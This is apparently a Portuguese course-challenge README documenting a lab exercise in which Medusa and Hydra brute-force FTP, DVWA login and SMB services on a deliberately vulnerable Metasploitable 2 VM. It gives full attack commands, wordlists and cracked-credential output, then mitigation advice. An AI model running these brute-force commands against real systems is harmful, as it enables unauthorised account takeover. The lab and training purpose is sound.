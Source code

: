 # ⚠️ Desafio Ataque de Força Bruta - Santander Cibersegurança 2025

## 🎯 Definições e Objetivo

Implementar, documentar e compartilhar um projeto prático utilizando Kali Linux e a ferramenta Medusa, em conjunto com ambientes vulneráveis (por exemplo, Metasploitable 2 e DVWA), para simular cenários de ataque de força bruta e exercitar medidas de prevenção.

> 💡 Este desafio é flexível! Você pode seguir os cenários propostos (FTP, DVWA, SMB) ou adaptar à sua realidade: experimentar outras ferramentas, criar novas wordlists, explorar módulos/serviços diferentes, ou apenas documentar em detalhes o que aprendeu, com estudos, reflexões e exemplos de código. O mais importante é demonstrar seu entendimento e compartilhar sua jornada de aprendizado!

## 1 - Configuração do Ambiente de Laboratório

### 1.1 Baixar e Instalar o VirtualBox

- [Baixar VirtualBox](https://www.virtualbox.org/wiki/Downloads)
- [Manual de Instalação (PDF)](https://download.virtualbox.org/virtualbox/7.2.2/UserManual.pdf)

### 1.2 Baixar ISO e Criar duas Máquinas Virtuais (VM)

- **VM1 - Kali Linux**  
  - [Download Kali Linux](https://www.kali.org/get-kali/)  
  - [Ver aula: *Preparando o ambiente com Kali e Metasploitable 2](https://web.dio.me/lab/criando-um-ataque-de-brute-force-de-senhas-com-medusa-e-kali-linux/learning/8984ac93-a831-4c59-99ba-46619fcb779c?back=/track/santander-ciberseguranca-2025)

- **VM2 - Metasploitable 2**  
  - [Download Metasploitable 2](https://sourceforge.net/projects/metasploitable/)  
  - [Ver aula: *Preparando o ambiente com Kali e Metasploitable 2](https://web.dio.me/lab/criando-um-ataque-de-brute-force-de-senhas-com-medusa-e-kali-linux/learning/8984ac93-a831-4c59-99ba-46619fcb779c?back=/track/santander-ciberseguranca-2025)

> Verifique se ambas as VMs estão na mesma rede (host-only).

Use `ifconfig` ou `ip a` para verificar o IP da VM2 (Metasploitable 2), geralmente `192.168.56.102`.

![ifconfig](images/ifconfig.png)  
![ip](images/ip.png)

### 1.3 Testar a Conectividade entre as VMs

Na VM1 (Kali Linux):

```bash
ping -c 3 192.168.56.102
```

![teste](images/teste.png)

---

## 2 - Enumeração Inicial

Utilize o `nmap` para descobrir serviços abertos:

```bash
nmap -sV -p 21-445 192.168.56.102
```

Serviços esperados:

- FTP (21)
- SSH (22)
- TELNET (23)
- SMTP (25)
- DOMAIN (53)
- HTTP (80 → DVWA)
- RPCBIND (111)
- SMB (139/445)

![portas](images/portas.png)

---

## 3 - Ataques com Medusa e Hydra

> O Medusa eo Hydra já vêm instalados no Kali Linux.

### 3.1 Ataque ao FTP

**Wordlists:**

```txt
# users.txt
user
msfadmin
admin
root

# pass.txt
123456
password
qwerty
msfadmin
```

**Criação das listas:**

```bash
echo -e "user\nmsfadmin\nadmin\nroot" > users.txt
echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt
```

**Ataque com Medusa:**

```bash
medusa -h 192.168.56.102 -U users.txt -P pass.txt -M ftp -t 6
```

Resultado esperado:

```
ACCOUNT FOUND: [ftp] Host: 192.168.56.102 User: msfadmin Password: msfadmin [SUCCESS]
```

![ftp](images/ftp.png)

---

### 3.2a Ataque ao DVWA com Medusa

1. Acesse: `http://192.168.56.102/dvwa/login.php`
2. Login padrão: `admin:password`
3. Configure a segurança para **Low**
4. Identifique os parâmetros do formulário: `username`, `password`, `Login`

**Comando Medusa:**

```bash
medusa -h 192.168.56.102 -U users.txt -P pass.txt -M http \
  -m PAGE:/dvwa/login.php \
  -m FORM:"username=^USER^&password=^PASS^&Login=Login" \
  -m FAIL:"Login failed" \
  -t 6
```

![dvwa](images/Medusadvwa.png)

---

### 3.2b Ataque ao DVWA com Hydra

**Comando Hydra:**

```bash
hydra -L users.txt -P pass.txt -t 4 192.168.56.102 http-post-form \
"/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed" -V
```

Resultado esperado:

```
[80][http-post-form] host: 192.168.56.102   login: admin  password: password
```

![dvwa](images/Hydradvwa.png)

---

### 3.3 Ataque SMB com Password Spraying

#### 3.3.1 Enumeração de Usuários

```bash
enum4linux -a 192.168.56.102 | tee enum4_output.txt
less enum4_output.txt
```

![enum](images/enum.png)

#### 3.3.2 Ataque com Medusa

**Wordlists:**

```txt
# smb_users.txt
user
msfadmin
service

# senhas_spray.txt
password
123456
Welcome123
nmsfadmin
```

**Criação das listas:**

```bash
echo -e "user\nmsfadmin\nservice" > smb_users.txt
echo -e "password\n123456\nWelcome123\nmsfadmin" > senhas_spray.txt
```

**Ataque:**

```bash
medusa -h 192.168.56.102 -U smb_users.txt -P senhas_spray.txt -M smbnt -t 2 -T 50
```

Resultado esperado:

```
ACCOUNT FOUND: [smbnt] Host: 192.168.56.102 User: msfadmin Password: msfadmin
```

![smb](images/smb.png)

---

## Aprendizados

O Medusa apesar de eficaz em protocolos como FTP, SSH, SMB e Telnet, apresenta limitações em ataques a formulários HTTP POST, como:

- **Suporte limitado a HTTP**: não lida bem com redirecionamentos, cookies ou JavaScript.
- **Tokens dinâmicos**: não interpreta ou atualiza CSRF tokens.
- **Módulo inexistente**: `http-form` não existe no Medusa.
- **Erros frequentes**: interpreta incorretamente respostas válidas como erros.

**Ferramentas mais eficazes para formulários web:**

| Ferramenta     | Vantagens principais |
|----------------|----------------------|
| Hydra          | Suporte nativo a `http-post-form` |
| Burp Suite     | Manipulação de tokens, cookies e headers |
| WFuzz          | Fuzzing de parâmetros web |
| Patator        | Modular e adaptável a HTTP |

- **FTP**: Substituir por SFTP/FTPS. Desativar se não for essencial.
- **DVWA**: Nunca expor em produção. Usar autenticação forte e bloqueio após tentativas.
- **SMB**: Remover contas padrão (`msfadmin`, `user`), usar senhas fortes e segmentar a rede.
- **Geral**: Monitorar logs de autenticação e aplicar políticas de senhas robustas.

---

## Documentações Oficiais

- Kali Linux – [Site Oficial](https://www.kali.org/)
- DVWA – [Damn Vulnerable Web Application](https://github.com/digininja/DVWA)
- Medusa – [Documentação](https://tools.kali.org/password-attacks/medusa)
- Nmap – [Manual Oficial](https://nmap.org/book/man.html)
- Hydra – [Documentação](https://github.com/vanhauser-thc/thc-hydra)
